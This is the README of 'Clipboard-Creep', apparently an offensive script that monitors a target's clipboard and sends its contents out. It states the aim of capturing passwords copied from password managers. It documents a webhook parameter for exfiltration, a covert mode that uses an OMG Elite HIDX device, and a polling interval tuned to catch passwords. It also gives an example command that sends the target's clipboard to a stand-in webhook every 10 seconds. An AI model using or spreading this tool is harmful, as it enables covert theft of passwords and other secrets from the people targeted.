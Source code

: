 # Clipboard-Creep #
Clipboard-Creep is a basic script which tracks the users clipboard and exfiltrates it contents. It was created to get access to passwords copied out of password managers, but might be useful in general.


## Usage ##
###Webhook###
The paramter webhook where data gets send to. Define the URL simply after the paramter and get the incoming clipboard content.

###CovertExfil###
This method required an HIDX poc to be successfully imported on the system. In addition to that, an OMG Elite device with actived HIDX is required. (This method is seen as a work in progress POC)

###Sleep###
The paramter sleep defines delay between every observation of the targets clipboard. A default of 12 seconds was choosen to capture potential passwords, in clipboards of password managers.

###EXAMPLE###
Output the targets clipboard into the console, every 12 seconds.
```Clipboard-Creep```

###EXAMPLE###
Exfiltrate the targets clipboard content to a defined webhook every 10 seconds.
```Clipboard-Creep -Webhook "https://example.com/" -Sleep 10```

![alt text](https://github.com/0iphor13/ClipBoard-Creep/CleipBoard-Creep/media/clippy.png)
